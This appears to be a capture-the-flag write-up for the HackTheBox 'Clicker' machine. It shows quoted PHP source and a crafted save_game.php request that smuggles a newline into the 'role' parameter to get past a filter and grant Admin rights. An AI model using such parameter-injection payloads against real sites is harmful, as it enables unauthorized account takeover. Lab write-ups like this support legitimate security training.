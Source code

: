 This folder inside has a file named `clicker.htb_backup.zip` with the source code of the site http://clicker.htb  (add it on the /etc/host to see it first ) 


This website is a online game. You must click and you will lvl up. Inside of the source code that I see on the `clicker.htb_backup.zip` I was able t o see that there is an "admin" functionality. So I tried to become administrator.


# FOOTHOLD:

### Method to be admin:

I was able to see on the website that there is a functionality where I save the game. Intercepting it with burpsuit I was able to see a "get" petition

`GET /save_game.php?clicks=0&level=0 HTTP/1.1`

On the source code exists a functionality that explains how the website interacts with the database, that seems to be mysql.

```
function create_new_player($player, $password) {
        global $pdo;
        $params = ["player"=>$player, "password"=>hash("sha256", $password)];
        $stmt = $pdo->prepare("INSERT INTO players(username, nickname, password, role, clicks, level) VALUES (:player,:player,:password,'User',0,0)");
        $stmt->execute($params);
}

```

So if I modify the param 'Admin' when I save the game maybe I will be able to become admin. But I have to bypass a filter first

```
if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
        $args = [];
        foreach($_GET as $key=>$value) {
                if (strtolower($key) === 'role') {
                        // prevent malicious users to modify role
                        header('Location: /index.php?err=Malicious activity detected!');
```


I was able to bypass it with `CRLF` Injection, that is this:

CRLF injections are **vulnerabilities where the attacker is able to inject CR (carriage return, ASCII 13) and LF (line feed, ASCII 10) characters into the web application**. This lets the attacker add extra headers to HTTP responses or even make the browser ignore the original content and process injected content instead.

This was the payload that I used to become admin, I changed my password too. And I must get out of my account and re-login to see the changes. Otherwise changing only the param `role` this does not worked for me.

```
GET /save_game.php?clicks=0&level=0&username=test&password=5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8&nickname=test0&role%0a=Admin
```
